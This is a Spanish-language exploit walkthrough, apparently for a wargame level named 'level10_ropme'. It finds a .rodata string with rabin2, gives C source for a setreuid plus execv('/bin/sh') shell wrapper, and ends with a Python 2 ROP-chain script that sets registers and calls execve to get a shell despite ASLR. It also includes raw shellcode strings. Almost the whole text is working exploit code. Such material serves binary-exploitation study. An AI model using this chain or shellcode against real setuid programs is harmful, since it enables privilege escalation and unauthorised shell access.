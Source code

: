 **- Con ASLR:** Buscar una cadena en una sección no randomizable para luego crearnos un pequeño binario con el nombre de esa cadena que nos brinde un shell:
```
rabin2 -z level10_ropme | grep -A 4 cntrl
Warning: Cannot initialize dynamic strings
vaddr=0x080b1953 paddr=0x00069953 ordinal=738 sz=6 len=5 section=.rodata type=ascii string=cntrl
vaddr=0x080b195f paddr=0x0006995f ordinal=740 sz=6 len=5 section=.rodata type=ascii string=alnum
```
La dirección 0x080b1953 es la tendremos asignar a cntrl_string en exploit.py

Elegimos cntrl y nos creamos la shell:
```c	
cat cntrl.c
#include <stdio.h>
#include <unistd.h>

int main(void)
{
 int euid = geteuid();
 setreuid(euid, euid);
 execv("/bin/sh", NULL);
}
		
```		
```python
#!/usr/bin/python
#
# Exploit ROP con ASLR
#
 
from struct import pack
 
binary = "level10"
junk = "A" * 12
 
cntrl_string = pack('<I', 0x080b1953) # string: cntrl

rop = pack('<I', 0x08052341)    # pop edx ; pop ecx ; pop ebx ;;
rop += pack('<I', 0xffffffff)   # pop edx (ebx = 0xffffffff)
rop += pack('<I', 0xffffffff)   # pop ecx (ebc = 0xffffffff)
rop += cntrl_string             # pop ebx (ebx = 0x080b1953)
rop += pack('<I', 0x080853a6)   # inc ecx ; adc al 0x39 ;; (ecx = 0x0)
rop += pack('<I', 0x0804ece9)   # inc edx ; add al 0x83 ;; (edx = 0x0)
rop += pack('<I', 0x0804825c)   # xor eax eax ; inc eax ;; (eax = 0x1)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x2)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x3)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x4)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x5)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x6)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x7)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x8)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0x9)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0xa)
rop += pack('<I', 0x0804825e)   # inc eax ;; (eax = 0xb -> execve())
rop += pack('<I', 0x08048260)   # int 0x80 ; pop ebp ;;

fin = "\x90\x90\x90\x90\xfc\xf2\xff\xbf"
#payload = "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"
payload = "\xeb\x10\x5e\x31\xc0\x88\x46\x07\xb0\x0b\x89\xf3\x31\xc9\x31\xd2\xcd\x80\xe8\xeb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23"

payload = junk + rop 
 
print payload
```
